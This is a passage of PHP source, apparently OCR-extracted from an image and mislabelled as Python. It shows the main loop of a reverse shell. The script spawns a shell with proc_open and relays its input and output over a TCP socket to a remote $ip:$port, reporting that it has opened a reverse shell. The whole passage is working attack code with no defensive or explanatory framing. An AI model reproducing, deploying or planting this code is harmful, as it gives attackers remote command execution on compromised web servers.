 ```python
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

```
